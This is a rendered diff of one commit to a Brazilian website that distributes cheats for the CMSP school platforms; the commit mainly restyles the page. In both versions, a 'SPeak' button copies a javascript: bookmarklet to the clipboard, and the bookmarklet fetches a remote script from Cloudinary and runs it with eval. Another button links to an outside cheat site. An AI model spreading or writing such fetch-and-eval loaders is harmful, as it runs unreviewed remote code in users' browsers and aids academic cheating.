

Before and after one commit to GuilhermedMS/cmsp, a website: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Resultado

```diff
--- a/index.html
+++ b/index.html
@@ -1,141 +1,166 @@
 <!DOCTYPE html>
+<html lang="pt-BR">
+<head>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Site Moderno</title>
+    <link rel="icon" href="https://i.imgur.com/YJk8r8E.png">
+    <link href="https://fonts.googleapis.com/css2?family=Roboto:wght@400;700&display=swap" rel="stylesheet">
+    <style>
+        /* Estilos Globais */
+        body {
+            font-family: 'Roboto', sans-serif;
+            background-color: #121212;
+            color: #ffffff;
+            margin: 0;
+            padding: 20px;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            min-height: 100vh;
+            text-align: center;
+            user-select: none;
+            transition: background-color 0.5s ease, color 0.5s ease;
+        }
 
-<html lang="pt-BR">
+        .container {
+            max-width: 600px;
+            width: 90%;
+            padding: 30px;
+            background-color: #1e1e1e;
+            border-radius: 20px;
+            box-shadow: 0 4px 20px rgba(0, 0, 0, 0.5);
+        }
 
-<head>
+        .theme-toggle-button {
+            position: fixed;
+            top: 1rem;
+            right: 1rem;
+            background-color: transparent;
+            border: none;
+            font-size: 2rem;
+            color: white;
+            cursor: pointer;
+            z-index: 10;
+        }
 
-    <meta charset="UTF-8">
+        h1 {
+            color: #e0e0e0;
+            margin-bottom: 20px;
+        }
 
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+        p {
+            color: #b0b0b0;
+            margin-bottom: 30px;
+            font-size: 1.1em;
+        }
 
-    <title>Moraes Response</title>
+        .button-container {
+            display: flex;
+            justify-content: center;
+            gap: 15px;
+            flex-wrap: wrap;
+            margin: 20px 0;
+        }
 
-    <link rel="icon" href="https://i.imgur.com/YJk8r8E.png">
+        button {
+            cursor: pointer;
+            font-weight: 700;
+            font-family: Helvetica, "sans-serif";
+            transition: all 0.3s ease;
+            padding: 10px 20px;
+            border-radius: 100px;
+            background: white;
+            color: #121212;
+            border: 1px solid transparent;
+            font-size: 15px;
+        }
 
-    <link href="https://fonts.googleapis.com/css2?family=Roboto:wght@400;700&display=swap" rel="stylesheet">
+        button:hover {
+            background: #e0e0e0;
+            transform: scale(1.05);
+        }
 
-    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0-beta3/css/all.min.css">
+        button:active {
+            transform: scale(0.95);
+            background: #d5d5d5;
+        }
 
-    <link rel="stylesheet" href="styles.css">
+        hr {
+            border: 0;
+            height: 1px;
+            background: #b0b0b0;
+            margin: 20px 0;
+        }
 
+        /* Tema Claro */
+        .light {
+            background-color: #ffffff;
+            color: #000000;
+        }
+
+        .light .container {
+            background-color: #f1f1f1;
+            box-shadow: 0 4px 20px rgba(0, 0, 0, 0.2);
+        }
+
+        .light h1 {
+            color: #000000;
+        }
+
+        .light p {
+            color: #333333;
+        }
+
+        .light button {
+            background-color: #e0e0e0;
+            color: #000000;
+        }
+
+        .light button:hover {
+            background-color: #d5d5d5;
+        }
+    </style>
 </head>
-
-<body class="dark">
-
+<body>
     <button id="themeToggle" class="theme-toggle-button">🌙</button>
-
     <div class="container">
-
-        <div class="content">
-
-            <h1 id="title">Moraes Response</h1>
-
-            <hr>
-
-            <p>Neste site, você encontrará cheats para "facilitar" suas tarefas nas plataformas do CMSP. Nenhum dos hacks foi criado por mim, mas alguns foram editados para serem melhorados.</p>
-
-            <hr>
-
-            <h3><strong>Cheats Atualizados</strong></h3>
-
-            <br>
-
-            <div class="button-container">
-
-                <button id="cmspButton" class="button"><i class="fas fa-school"></i> CMSP</button>
-
-                <button id="speakButton" class="button"><i class="fas fa-comments"></i> SPeak</button>
-
-            </div>
-
-            <hr>
-
-            <p class="footer-text">"O governo não tem a mínima ideia do que os alunos enfrentam em suas jornadas educacionais e ainda querem afirmar que as recentes mudanças no sistema de ensino foram para <strong>melhor</strong>. Sinceramente, parece que essa foi uma das piores decisões que poderiam ter tomado."</p>
-
-            <p class="footer-text">© 2024 Direitos reservados a Guilherme de Moraes Souza.</p>
-
+        <h1>Site Moderno</h1>
+        <p>Este site é um exemplo de design moderno, com tema escuro AMOLED e layout centralizado.</p>
+        <hr>
+        <div class="button-container">
+            <button id="cmspButton">CMSP</button>
+            <button id="speakButton">SPeak</button>
         </div>
-
+        <hr>
+        <p class="footer-text">"O governo não tem a mínima ideia do que os alunos enfrentam em suas jornadas educacionais e ainda querem afirmar que as recentes mudanças no sistema de ensino foram para <strong>melhor</strong>. Sinceramente, parece que essa foi uma das piores decisões que poderiam ter tomado."</p>
+        <p class="footer-text">© 2024 Direitos reservados a Guilherme de Moraes Souza.</p>
     </div>
 
-
-
-    <div id="notificationContainer" class="notification-container"></div>
-
-
-
     <script>
-
-        document.addEventListener('contextmenu', function(e) {
-
-            e.preventDefault();
-
+        // Alternar Tema
+        const themeToggle = document.getElementById('themeToggle');
+        themeToggle.addEventListener('click', () => {
+            document.body.classList.toggle('light');
+            themeToggle.textContent = document.body.classList.contains('light') ? '🌑' : '🌙';
         });
 
-
-
-        async function copyToClipboard(code) {
-
-            try {
-
-                await navigator.clipboard.writeText(code);
-
-                alert('Script copiado com sucesso! Você será redirecionado para um Tutorial.');
-
-            } catch (error) {
-
-                console.error('Erro:', error);
-
-                alert('Erro ao copiar o Script. Tente novamente.');
-
-            }
-
-        }
-
-
-
+        // Botões CMSP e SPeak
         document.getElementById('cmspButton').addEventListener('click', () => {
-
             window.open('https://cmspcheeto.squareweb.app/', '_blank');
-
         });
 
-
-
         document.getElementById('speakButton').addEventListener('click', async () => {
-
             const code = `javascript:fetch(\`https://res.cloudinary.com/dq36xqdoe/raw/upload/v\${Math.floor(Math.random() * 1000000)}/main_oqidn5.js\`).then(r => r.text()).then(r => eval(r))`;
-
-            await copyToClipboard(code);
-
-            window.open('https://youtu.be/GF5bsN5eBF8', '_blank');
-
+            try {
+                await navigator.clipboard.writeText(code);
+                alert('Script copiado com sucesso! Você será redirecionado para um Tutorial.');
+                window.open('https://youtu.be/GF5bsN5eBF8', '_blank');
+            } catch (error) {
+                console.error('Erro:', error);
+                alert('Erro ao copiar o Script. Tente novamente.');
+            }
         });
-
-
-
-        const themeToggle = document.getElementById('themeToggle');
-
-        themeToggle.addEventListener('click', () => {
-
-            document.body.classList.toggle('dark');
-
-            document.body.classList.toggle('light');
-
-            themeToggle.innerHTML = document.body.classList.contains('dark') ? '🌙' : '☀️';
-
-        });
-
     </script>
-
-
-
-    <a href="https://www.instagram.com/guidevexx/" target="_blank" class="profile-pic">
-
-        <div class="tooltip">Guilherme de Moraes Souza</div>
-
-    </a>
-
 </body>
-
 </html>
```
